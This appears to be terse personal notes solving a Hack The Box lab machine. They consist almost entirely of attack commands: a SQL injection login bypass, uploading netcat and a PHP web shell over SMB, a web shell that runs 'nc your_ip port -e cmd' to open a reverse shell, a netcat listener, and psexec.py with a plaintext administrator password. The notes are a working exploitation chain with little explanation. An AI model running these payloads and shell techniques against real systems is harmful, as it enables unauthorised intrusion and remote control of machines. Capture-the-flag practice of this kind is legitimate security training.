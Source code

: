 ```
Port 80 Website
' OR 1 '

smbclient \\\\10.10.10.97\\new-site -U tyler

put nc.exe

<?php
system('nc your_ip port -e cmd')
?>
put test.php

nc -nlvp

where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

whoami

history

psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97 


```
https://www.hackthebox.com/achievement/machine/336799/151
